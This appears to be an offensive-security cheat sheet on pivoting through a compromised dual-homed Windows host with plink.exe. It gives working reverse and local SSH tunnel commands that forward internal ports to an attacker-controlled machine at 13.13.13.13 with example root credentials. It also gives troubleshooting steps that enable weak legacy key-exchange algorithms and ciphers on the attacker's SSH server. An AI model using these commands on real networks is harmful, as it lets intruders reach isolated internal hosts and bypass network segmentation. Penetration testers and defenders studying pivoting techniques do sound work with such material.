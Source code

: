### Remote Tunnel

```
cmd.exe /c echo y | plink.exe -ssh -l [attacker_username] -pw [attacker_ssh_password] -R [attacker_ip]:[attacker_port]:[victim_ip]:[victim_port] [attacker_ip]
```

for example, suppose you have gained access at a dual-homed host and using this access, you want to access a port at another host that is not connected to the internet (you can't directly talk to it) but is accessible from the host you have access to:

- `attacker_ip` = 13.13.13.13
- `attacker_port` = 2222 (this is the final port that will accept the remote connection)
- `victim_ip` = 10.10.10.10 (IP of the inaccessible host)
- `victim_port` = 22 (Port of the inaccessible host that you will tunnel outside)

`cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 13.13.13.13:2222:10.10.10.10:22 13.13.13.13`

### Local Tunnel

If you don't want to do an SSH remote port forwarding, but a local one instead:

```
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R [attacker_ip]:[attacker_port]:127.0.0.1:[victim_port] [attacker_ip]
```

The above command will forward the local `victim_port` at the host that you have access to, to your `attacker_ip`:`attacker_port`

In the commands above, the `cmd.exe /c echo y |` part can be ommited if you have previously accepted the server SSH certificate.

For the above to work, you need the following configuration at your SSH server:
`GatewayPorts yes`

### Plink Troubleshooting

* Check if architecture of plink and target system are compitable (32 bit & 64 bit).
* Check the version of plink, find newest version [here](https://www.putty.org/)
* Key exchange algorithm troubleshooting: 
	* FATAL ERROR: Couldn't agree a key exchange algorithm (available: curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256).
	* Solution: Try to edit **/etc/ssh/sshd_config** and put the following to the top of the file:
	```
	KexAlgorithms +diffie-hellman-group1-sha1
	Ciphers +aes128-cbc
	```
	Stop ssh from attackers machine:
	```
	systemctl stop ssh
	```
	Regenerate the keys:
	```
	ssh-keygen -A
	```
	Start ssh again:
	```
	systemctl start ssh
	```
	Use again the plink (Victim machine)
